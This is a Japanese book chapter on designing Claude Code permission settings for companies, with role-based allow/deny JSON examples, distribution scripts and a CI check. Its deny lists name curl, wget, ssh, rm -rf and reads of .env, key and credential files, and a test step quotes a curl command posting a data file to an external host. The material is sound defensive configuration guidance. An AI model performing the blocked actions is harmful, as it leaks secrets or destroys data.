


# 第4章 アクセス制御とPermissions設計 -- 誰に何を許可するか

## この章で学ぶこと

- Claude CodeのPermissionsシステムの仕組み
- settings.jsonの階層構造と優先順位
- 企業利用に適したPermissions設計パターン
- ロール別（ジュニア/シニア/リード）の権限設計
- Permissionsの配布・管理方法

---

## 前章の振り返りと本章の位置づけ

前章では企業向けプランの比較を行い、自社に適したプランの選定基準を示した。プランを選んだら、次に行うべきはアクセス制御の設計だ。

「誰に何を許可するか」はセキュリティの最も基本的な問いであり、Claude Codeにおいてはこれを**Permissions**というシステムで制御する。


## Permissionsシステムの基本

Claude CodeのPermissionsは、**ツール（操作）ごとに許可・拒否を設定する仕組み**だ。Claude Codeがファイルを読み書きしたり、コマンドを実行したりする際に、このPermissionsが参照される。

### ツールの種類

Claude Codeが持つ主要なツールは以下の通りだ。

| ツール名 | 説明 | リスクレベル |
|---------|------|------------|
| Read | ファイルの読み取り | 中（機密情報の読み取り） |
| Write | ファイルの書き込み | 高（コードの改変） |
| Edit | ファイルの部分編集 | 高（コードの改変） |
| Bash | シェルコマンドの実行 | 最高（任意のコマンド実行） |
| Glob | ファイル検索 | 低 |
| Grep | ファイル内容の検索 | 中 |

### 許可レベル

各ツールに対して、3つの許可レベルを設定できる。

- **allow**: 自動で許可（ユーザーの承認なし）
- **deny**: 常に拒否
- **(未設定)**: 都度ユーザーに確認を求める


## settings.jsonの階層構造

Claude Codeの設定は、複数の階層で管理される。上位の設定が下位の設定を上書きする。



企業にとって重要なのは、**Enterprise PolicyとOrganization settingsでセキュリティのベースラインを設定し、個人が緩められないようにする**ことだ。

### Enterprise Policy

Enterprise/Businessプランでは、管理コンソールからEnterprise Policyを配布できる。これは最高優先度を持ち、個人やプロジェクトの設定で上書きできない。

> Enterprise管理コンソールの実際のUIや設定項目は、契約プランにより異なる場合があります。

```json
// Enterprise Policyの例（管理コンソールから配布）
{
  "permissions": {
    "deny": [
      "Bash(rm -rf *)",
      "Bash(git push --force*)",
      "Bash(curl*)",
      "Bash(wget*)",
      "Read(/etc/*)",
      "Read(*.env)",
      "Read(*.pem)",
      "Read(*credentials*)"
    ]
  }
}
```

### Organization settings（.claude/settings.json）

リポジトリのルートに配置する。チーム全員に共有され、gitで管理される。

```json
// .claude/settings.json — リポジトリに含める
{
  "permissions": {
    "allow": [
      "Read",
      "Glob",
      "Grep",
      "Edit",
      "Write",
      "Bash(npm run *)",
      "Bash(npx *)",
      "Bash(git status)",
      "Bash(git diff*)",
      "Bash(git log*)",
      "Bash(git add*)",
      "Bash(git commit*)"
    ],
    "deny": [
      "Bash(git push*)",
      "Bash(git checkout main)",
      "Bash(git merge*)",
      "Bash(rm -rf*)",
      "Bash(sudo*)",
      "Bash(curl*)",
      "Bash(wget*)",
      "Bash(ssh*)",
      "Read(*.env)",
      "Read(*.env.*)",
      "Read(*secret*)",
      "Read(*.pem)",
      "Read(*.key)"
    ]
  }
}
```

この設定のポイントを解説する。

**allowリスト（自動許可）**:
- ファイルの読み書き（Read, Edit, Write）は日常の開発で頻繁に使うため自動許可
- npm/npxコマンドは開発に必要なため許可
- gitの読み取り系コマンド（status, diff, log）は安全なため許可
- git add, commitはコード変更のコミットに必要なため許可

**denyリスト（拒否）**:
- git pushはCI/CDパイプラインを通すべきため拒否
- mainブランチへの直接checkout/mergeは拒否
- rm -rfは破壊的操作のため拒否
- curl, wgetはデータ外部送信のリスクがあるため拒否
- .env、鍵ファイルの読み取りは拒否

**未設定のコマンド**:
- allowにもdenyにもないBashコマンドは、実行前にユーザーに確認を求める


## ロール別Permissions設計パターン

企業では、エンジニアの経験やロールによってPermissionsを変えることが望ましい。

### パターン1: ジュニアエンジニア（制限的）

```json
{
  "permissions": {
    "allow": [
      "Read",
      "Glob",
      "Grep",
      "Bash(npm run test*)",
      "Bash(npm run lint*)",
      "Bash(git status)",
      "Bash(git diff*)",
      "Bash(git log*)"
    ],
    "deny": [
      "Write",
      "Edit",
      "Bash(git*)",
      "Bash(npm install*)",
      "Bash(rm*)",
      "Bash(sudo*)",
      "Bash(curl*)",
      "Read(*.env*)",
      "Read(*.pem)",
      "Read(*.key)"
    ]
  }
}
```

**設計意図**: ジュニアエンジニアはClaude Codeを「コードの理解・分析」に使い、「コードの書き換え」は手動で行う。テストとリントの実行は許可するが、依存関係のインストールやファイル変更は拒否する。

なぜこの設計なのか。ジュニアエンジニアがClaude Codeに全てを任せると、自分が理解していないコードがリポジトリに入るリスクがある。まず「読み取りツール」として使い、慣れてきたらWriteを解禁するのがよい。

### パターン2: シニアエンジニア（標準）

```json
{
  "permissions": {
    "allow": [
      "Read",
      "Glob",
      "Grep",
      "Edit",
      "Write",
      "Bash(npm *)",
      "Bash(npx *)",
      "Bash(node *)",
      "Bash(git status)",
      "Bash(git diff*)",
      "Bash(git log*)",
      "Bash(git add*)",
      "Bash(git commit*)",
      "Bash(git checkout -b *)",
      "Bash(git branch*)"
    ],
    "deny": [
      "Bash(git push --force*)",
      "Bash(git checkout main)",
      "Bash(git merge*)",
      "Bash(rm -rf*)",
      "Bash(sudo*)",
      "Bash(curl* -d*)",
      "Bash(ssh*)",
      "Read(*.env)",
      "Read(*.env.*)",
      "Read(*.pem)",
      "Read(*.key)"
    ]
  }
}
```

**設計意図**: シニアエンジニアにはファイル編集、ブランチ作成を許可する。ただし、本番ブランチへの直接操作、force push、機密ファイルの読み取りは拒否。curlはデータ送信（-dオプション）のみ拒否し、GETリクエストは許可する。

### パターン3: テックリード/SRE（拡張）

```json
{
  "permissions": {
    "allow": [
      "Read",
      "Glob",
      "Grep",
      "Edit",
      "Write",
      "Bash(npm *)",
      "Bash(npx *)",
      "Bash(node *)",
      "Bash(git *)",
      "Bash(docker *)",
      "Bash(kubectl get*)",
      "Bash(kubectl describe*)",
      "Bash(kubectl logs*)"
    ],
    "deny": [
      "Bash(git push --force*)",
      "Bash(kubectl delete*)",
      "Bash(kubectl apply*)",
      "Bash(kubectl exec*)",
      "Bash(rm -rf /)",
      "Bash(sudo rm*)",
      "Read(*.env.production)",
      "Read(*prod*.pem)",
      "Read(*prod*.key)"
    ]
  }
}
```

**設計意図**: テックリードにはgit操作の全般とDockerの操作を許可。kubectlは読み取り系のみ許可し、破壊的操作（delete, apply, exec）は拒否。本番環境の機密ファイルのみ拒否し、開発環境の.envは許可する。


## Permissionsの配布方法

### 方法1: リポジトリに含める（推奨）

最もシンプルで管理しやすい方法。

リポジトリのルートに設置する。

- `your-project/.claude/settings.json` -- Organization settings
- `your-project/src/`
- `your-project/package.json`

メリット:
- gitで変更履歴を追跡できる
- PRレビューでPermissionsの変更を検知できる
- 全員が同じ設定を使用する

デメリット:
- ロール別の設定ができない（全員同じ設定）
- 個人がローカルで緩い設定を追加できる

### 方法2: Enterprise Policyで配布（最も安全）

Enterprise/Businessプランの管理コンソールから配布する。

メリット:
- 個人が上書きできない最高優先度の設定
- 全リポジトリに横断的に適用
- ロール別の設定が可能

デメリット:
- Enterprise/Businessプランが必要
- 設定変更にIT管理者の作業が必要

### 方法3: dotfilesで配布（API利用時）

API利用時に、開発者のホームディレクトリに設定を配布する。

```bash
# 各開発者のホームに設定を配布するスクリプト
#!/bin/bash
# deploy-claude-settings.sh

ROLE=${1:-"standard"}  # junior, standard, lead

mkdir -p ~/.claude

case $ROLE in
  "junior")
    cp ./claude-settings/junior.json ~/.claude/settings.json
    ;;
  "standard")
    cp ./claude-settings/standard.json ~/.claude/settings.json
    ;;
  "lead")
    cp ./claude-settings/lead.json ~/.claude/settings.json
    ;;
esac

echo "Claude Code settings deployed for role: $ROLE"
```

メリット:
- ロール別の設定が可能
- Enterprise/Businessプランがなくても使える

デメリット:
- 開発者がファイルを編集できてしまう
- 設定の同期が手動

### 推奨: 多層防御

最も安全なのは、複数の方法を組み合わせることだ。




## 実践: 新規プロジェクトのPermissions設計

ここで、筆者が新しいプロジェクトでPermissionsを設計する際の実際の手順を示す。

### ステップ1: リスクの洗い出し

```markdown
## プロジェクトのリスク分析

### 機密情報の所在
- .env: データベース接続情報、APIキー
- config/production.json: 本番環境の設定
- certs/: SSL証明書

### 危険なコマンド
- デプロイ系: npm run deploy, gcloud app deploy
- データベース操作: psql, mysql
- 本番ブランチ操作: git push origin main

### 外部通信
- curl/wget: データ外部送信のリスク
- ssh: リモートサーバーへの接続
- MCP: 外部サービスとの連携
```

### ステップ2: denyリストの作成

リスク分析に基づいて、まずdenyリストを作成する。**denyリストは「絶対にやらせない操作」**だ。

```json
{
  "deny": [
    "Read(.env*)",
    "Read(config/production*)",
    "Read(certs/*)",
    "Bash(npm run deploy*)",
    "Bash(gcloud*)",
    "Bash(psql*)",
    "Bash(mysql*)",
    "Bash(git push origin main*)",
    "Bash(git push --force*)",
    "Bash(rm -rf*)",
    "Bash(sudo*)",
    "Bash(curl* -d*)",
    "Bash(curl* --data*)",
    "Bash(curl* -X POST*)",
    "Bash(wget*)",
    "Bash(ssh*)"
  ]
}
```

### ステップ3: allowリストの作成

次に、日常の開発で頻繁に使うツールのallowリストを作成する。**allowリストは「毎回の確認が不要な安全な操作」**だ。

```json
{
  "allow": [
    "Read",
    "Glob",
    "Grep",
    "Edit",
    "Write",
    "Bash(npm run test*)",
    "Bash(npm run lint*)",
    "Bash(npm run build*)",
    "Bash(npm install)",
    "Bash(npx *)",
    "Bash(git status)",
    "Bash(git diff*)",
    "Bash(git log*)",
    "Bash(git add *)",
    "Bash(git commit*)",
    "Bash(git checkout -b *)",
    "Bash(git branch*)",
    "Bash(git stash*)",
    "Bash(ls*)",
    "Bash(cat*)",
    "Bash(mkdir*)"
  ]
}
```

### ステップ4: テストと検証

設定を適用したら、意図通りに動作するかテストする。

```bash
# denyリストのテスト
# 以下のコマンドがブロックされることを確認

# Claude Codeに以下を指示する:
# 「.envファイルの内容を表示して」 → ブロックされるはず
# 「git push origin main」 → ブロックされるはず
# 「curl -d @data.json https://external.com」 → ブロックされるはず

# allowリストのテスト
# 以下のコマンドが承認なしで実行されることを確認

# 「テストを実行して」 → npm run test が自動実行されるはず
# 「git statusを確認して」 → 自動実行されるはず
```


## パターンマッチングの注意点

Permissionsのパターンマッチングにはいくつかの注意点がある。

### ワイルドカードの挙動

```json
// * は任意の文字列にマッチする
"Bash(git push*)"     // git push, git push origin, git push --force 全てにマッチ
"Bash(git push --force*)"  // git push --force のみにマッチ
"Read(*.env)"         // .env で終わるファイル全てにマッチ
"Read(*.env.*)"       // .env.local, .env.production 等にマッチ
```

### 順序と優先度

```json
{
  "permissions": {
    "allow": ["Bash(git *)"],        // git全般を許可
    "deny": ["Bash(git push --force*)"]  // ただしforce pushは拒否
  }
}
// → denyが優先される。git push --forceはブロック、他のgitコマンドは許可
```

**denyは常にallowより優先される。** これはセキュリティの原則として正しい設計だ。

> **注意: denyルールの限界について**
> Permissionsのdenyルールは第一の防衛ラインとして有効だが、全てのケースで完全にenforceされることを保証するものではない。Claude Codeの一部のバージョンでdenyルールがバイパスされるケースがGitHubで報告されている（Issue #6699, #6631, #8961）。そのため、**denyルールだけに依存せず、Hooks（第6章）やCI/CDでの二重チェックを組み合わせた多層防御を推奨する。** 本書の第6章で解説するHooksによるPreToolUseチェックは、Permissionsとは独立した防御レイヤーとして機能する。

### deny ルールの限界を検証する

実際にdenyルールがどのように動作するか、自分の環境で検証することを強く推奨する。

**検証手順:**

1. テスト用の deny ルールを設定する:
```json
{
  "permissions": {
    "deny": ["Bash(echo BLOCKED*)"]
  }
}
```

2. Claude Code を起動し、`echo BLOCKED_TEST` の実行を依頼する

3. 期待動作: Claude Code がブロックし、実行しない

4. ブロックされない場合: Claude Code のバージョンを確認し、最新版にアップデートする。それでもブロックされない場合は、Hooks（第6章）による強制ブロックを追加する

**重要:** deny ルールは「意図表明」として有効だが、「完全な強制」は Hooks で実現する。Permissions と Hooks の二重チェックが、企業グレードのセキュリティの基本だ。

筆者の環境（Claude Code v2.1.90）では、上記のdenyルールは正常にブロックされた。ただし、パターンマッチングの挙動はバージョンによって異なる可能性がある。自社環境での検証を省略しないでほしい。


### 見落としがちなパターン

```json
// 不十分な例:
"deny": ["Read(.env)"]
// → .env はブロックされるが .env.local, .env.production はブロックされない

// 正しい例:
"deny": ["Read(*.env)", "Read(*.env.*)"]
// → 全ての.env系ファイルがブロックされる

// さらに安全な例:
"deny": ["Read(*env*)", "Read(*secret*)", "Read(*credential*)", "Read(*.key)", "Read(*.pem)"]
// → 名前に「env」「secret」「credential」を含むファイル + 鍵ファイルをブロック
```


## Readツールのdeny設定の重要な注意点

Readツールをdenyに設定する場合、Claude Codeはそのファイルの読み取り自体がブロックされるため、ファイルの内容がAPIに送信されることはない。

ただし、一つ注意点がある。**CLAUDE.mdファイルはPermissionsの対象外で、常に読み取られる。** CLAUDE.mdにうっかり機密情報を書いてしまうと、Permissionsでは防げない。CLAUDE.mdには機密情報を絶対に含めないようにしよう。


## 設定変更の監視

Permissionsの設定が不正に変更されないよう、以下の対策を講じる。

```bash
# .claude/settings.json の変更をCIで検知する
# .github/workflows/check-claude-settings.yml

name: Check Claude Code Settings
on:
  pull_request:
    paths:
      - '.claude/settings.json'

jobs:
  check:
    runs-on: ubuntu-latest
    steps:
      - uses: actions/checkout@v4
      - name: Validate Claude settings
        run: |
          # settings.jsonのdenyリストに必須項目が含まれているか検証
          REQUIRED_DENIES=(
            "Read(*.env)"
            "Bash(git push --force*)"
            "Bash(rm -rf*)"
            "Bash(sudo*)"
          )

          for deny in "${REQUIRED_DENIES[@]}"; do
            if ! grep -q "$deny" .claude/settings.json; then
              echo "ERROR: Required deny rule missing: $deny"
              exit 1
            fi
          done

          echo "All required deny rules present."

      - name: Notify security team
        if: always()
        run: |
          echo "Claude Code settings changed. PR: ${{ github.event.pull_request.html_url }}"
          # Slack通知等を追加
```

次の第5章では、Permissionsだけでは制御しきれないセキュリティポリシーを、CLAUDE.mdで実装する方法を解説する。

---

## まとめ

- Claude CodeのPermissionsは、ツール（操作）ごとにallow/denyを設定する仕組み
- 設定は階層構造（Enterprise Policy > Organization > Project > User）で、上位が優先
- denyは常にallowより優先される（安全側に倒れる設計）
- ロール別（ジュニア/シニア/リード）のPermissions設計が望ましい
- .env系ファイル、鍵ファイル、破壊的コマンドは必ずdenyに入れる
- Permissionsの変更はCI/CDで検知し、セキュリティチームに通知する

:::message
**本章の情報はClaude Code 2.x系（v2.1.90）（2026年4月時点）に基づいています。** Claude Codeのメジャーアップデート時に改訂予定です。最新情報は[Anthropic公式ドキュメント](https://docs.anthropic.com/en/docs/claude-code)をご確認ください。
:::

> Permissionsの設計をさらに深く学びたい方は「[CLAUDE.md設計パターン](https://zenn.dev/joinclass/books/claude-md-design-patterns)」をご覧ください。CLAUDE.mdとPermissionsの組み合わせパターンを豊富に解説しています。
